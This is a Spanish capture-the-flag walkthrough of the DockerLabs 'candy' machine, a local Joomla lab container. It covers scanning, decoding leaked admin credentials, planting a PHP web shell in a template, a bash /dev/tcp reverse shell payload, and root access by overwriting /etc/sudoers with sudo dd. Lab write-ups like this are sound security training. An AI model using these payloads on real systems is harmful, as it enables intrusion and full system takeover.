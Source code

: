 Máquina candy [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Fácil

![dock](./img/dock.png)

# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```css
# Nmap 7.94SVN scan initiated Thu Aug 29 20:00:40 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-08-29 20:00:41 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-robots.txt: 17 disallowed entries 
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/ 
|_/plugins/ /tmp/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 20:00:56 2024 -- 1 IP address (1 host up) scanned in 16.16 seconds
```

Como vemos solo esta abierto el puerto 80 corriendo apache, por lo que podemos intuir que la intrusion es mediante uan reverse shell.

##### PUERTO 80:

![80](./img/80.png)

Como vemos parece haber un `joomla`, por lo que podemos usar la herramienta `joomscan` de la siguiente manera:

```css
joomscan -u http://172.17.0.2/
```

```css
[H[2J[33m
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
[31m			(1337.today)[0m
   
    --=[[34mOWASP JoomScan[0m
    +---++---==[Version : [31m0.0.7
[0m    +---++---==[Update Date : [[31m2018/09/23[0m]
    +---++---==[Authors : [31mMohammad Reza Espargham , Ali Razmjoo[0m
    --=[Code name : [31mSelf Challenge[0m
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

[34m[34mProcessing http://172.17.0.2/ ...


[34m
[+] FireWall Detector
[31m[++] Firewall not detected
[34m[34m
[+] Detecting Joomla Version
[33m[++] Joomla 4.1.2
[34m[34m
[+] Core Joomla Vulnerability
[31m[++] Target Joomla core is not vulnerable
[34m[34m
[+] Checking apache info/status files
[31m[++] Readable info/status files are not found
[34m[34m
[+] admin finder
[33m[++] Admin page : http://172.17.0.2/administrator/
[34m[34m
[+] Checking robots.txt existing
[33m[++] robots.txt is found
path : http://172.17.0.2/robots.txt 

Interesting path found from robots.txt
http://172.17.0.2/joomla/administrator/
http://172.17.0.2/administrator/
http://172.17.0.2/api/
http://172.17.0.2/bin/
http://172.17.0.2/cache/
http://172.17.0.2/cli/
http://172.17.0.2/components/
http://172.17.0.2/includes/
http://172.17.0.2/installation/
http://172.17.0.2/language/
http://172.17.0.2/layouts/
http://172.17.0.2/un_caramelo
http://172.17.0.2/libraries/
http://172.17.0.2/logs/
http://172.17.0.2/modules/
http://172.17.0.2/plugins/
http://172.17.0.2/tmp/

[34m[34m
[+] Finding common backup files name
[31m[++] Backup files are not found
[34m[34m
[+] Finding common log files name
[31m[++] error log is not found
[34m[34m
[+] Checking sensitive config.php.x file
[31m[++] Readable config files are not found
[34m[33m

Your Report : reports/172.17.0.2/
[0m
```

Como vemos hay varias cosas interesantes, pero luego de revisar, lo único que nos va a ayudar es el "robots.txt" ya que si entramos desde el navegador y vemos la última línea veremos estas credenciales:

```css
admin:c2FubHVpczEyMzQ1
```

que como vemos están en base64, por lo que simplemente vamos al terminal y ejecutamos:

```css
echo 'c2FubHVpczEyMzQ1' | base64 -d
```

```css
sanluis12345
```

Por lo que ya tenemos credenciales: `admin:sanluis12345`. Para introducirlas tenemos que ir a `172.17.0.2/administrator`.

# INTRUSION

Ahora continuaremos a enviarnos una reverse shell, para hacerlo vamos a `system > Templates > Site Templates > Cassiopeia Details and Files`. Una vez ahí editaremos el index.php borrando todo y solo dejando el siguiente codigo:

```php
<?php
       system($_GET['cmd']);
?>
```

Lo guardamos y volvemos a `http://172.17.0.2` pero ponemos lo siguiente:

```css
http://172.17.0.2/?cmd=bash -c 'bash -i >%26 /dev/tcp/<IP>/<PUERTO> 0>%261'
```

pero antes de enviarlo escuchamos con el netcat de la siguiente manera:

```css
nc -nlvp 443 # Elije el puerto que quieras
```

# ESCALADA DE PRIVILEGIOS

Antes de continuar primero haremos el tratamiento de la tty, para hacerlo debemos ejecutar estos comandos:

```css
script /dev/null -c bash # Damos al enter y presionamos ctrl+Z
stty raw -echo; fg # Damos al enter y escribimos "reset xterm" y nuevamente enter
export TERM=xterm && export SHELL=bash && stty rows 33 columns 128
```

Ahora si esta todo listo para escalar de manera correcta.

### www-data

Siendo el usuario www-data podemos ejcutar `sudo -l` pero no nos sirve de nada, entonces luego de buscar, veo que hay un archivo en `/var/backups/hidden/otro_caramelo.txt ` y si lo leemos tiene esto:

```css


                          _____             _             _           _                                           
                         |  __ \           | |           | |         | |                                          
  ______ ______ ______   | |  | | ___   ___| | _____ _ __| |     __ _| |__  ___     ______ ______ ______ ______   
 |______|______|______|  | |  | |/ _ \ / __| |/ / _ \ '__| |    / _` | '_ \/ __|   |______|______|______|______|  
                         | |__| | (_) | (__|   <  __/ |  | |___| (_| | |_) \__ \                                  
                         |_____/ \___/ \___|_|\_\___|_|  |______\__,_|_.__/|___/                                  



Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>



  ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ ______ 
 |______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|______|

```

Lo único que nos sirve es la contraseña del usuario luisillo que es "luisillosuperpassword", por lo que escalamos ejecutando `su luisillo` y poniendo la contraseña.

### luisillo

Si ejecutamos `sudo -l` vemos lo siguiente:

```css
Matching Defaults entries for luisillo on ee406841b794:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on ee406841b794:
    (ALL) NOPASSWD: /bin/dd
```

Por lo que para escalar podemos ejcutar esto:

```css
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Una vez hecho esto ya tendremos permisos root para todos los comandos, y solo escalamos ejecutando `sudo su` y poniendo la contraseña de luisillo.

![root](./img/root.png)